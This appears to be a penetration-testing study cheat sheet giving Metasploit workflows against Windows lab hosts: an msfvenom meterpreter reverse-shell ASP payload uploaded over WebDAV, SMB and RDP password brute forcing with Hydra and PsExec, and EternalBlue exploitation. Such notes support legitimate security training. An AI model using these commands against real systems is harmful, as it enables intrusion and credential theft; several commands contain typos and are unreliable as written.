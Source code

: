 _with metasploit_

1.  scan first to check if IIS Web DAV is there
2.  create your own payload with msfvenom: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=1234 -f asp > shell.asp`
3.  open cadaver and connect to the webdav: `cadaver http://10.10.x.x/webdav` , then upload the shell file: `put /root/shell.asp`
4.  start postgres server and msfconsole: `service postgresql start && msfconsole`.
5.  msfconsole: `use multi/handler` , `set payload /windows/meterpreter/reverse_tcp `, `set LHOST and LPORT`(same as shell.asp), hit `run`
6.  open browser and click on the shell.asp file that was uploaded
7.  find what you are looking for.
8.  _You can use a metaasploit script for automating all of it_. in msfconsole `search iis upload`, looking for exploit/windows/iis/iis_webdav_upload_asp

### Exploiting SMB with PsExec

- user authentication
- share authentication

1. nmap sca `nmap -sV -sC 10.10.x.x`
2. smb brute force, start msfconsole: `service postgresql start && msfconsole`
3. msfconsole: `serach smb_login` and use.
4. set options:
   - `set RHOSTS`,
   - `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`,
   - `set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_user.txt`,
   - `set VERBOSE false` < - for only succeced attempts
5. use psexec.py to login with found credentials: `psecexec.py Administrator@10.10.x.x cmd.exe`, fill in the passwords

_use psexec with metasploit_

1. in msfconsole search: `search psexec`, looking for`exploit/windows/smb/psexec`, fill in options

### Eternal Blue

1. nmap script to check if internal blue `sudo nmap -sV -p 445 --script=smb-vuln-ms17.010 10.10.x.x`
2. msfconsole: `search eternalblue`
3. `use exploit/windows/smb/ms17:010_eternalblue`
4. set options

### Exploiting RDP

- RDP uses TCP port 3389 by default, and can also be configured to run on any other TCP port
- preform a bruteforce

1. preform nmap: `nmap -sV -p- 10.10.x.x`
2. verify RDP port by using msfconsole: `service postgresql start && msfconsole`
3. search msfconsole: `search rdp_scanner` (auxilary/scanner/rdp/rdp_scanner)
4. set options: `set RHOSTS` & `set RPORT` and run
5. brute-force HYDRA: `hydra -L /usr/share/metasploit-framework/data/wordlists/common_user.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.10.x.x -s <port>`
6. xfreerdp with creds: `xfreerdp /u:username /p:password /v:10.10.x.x:port`
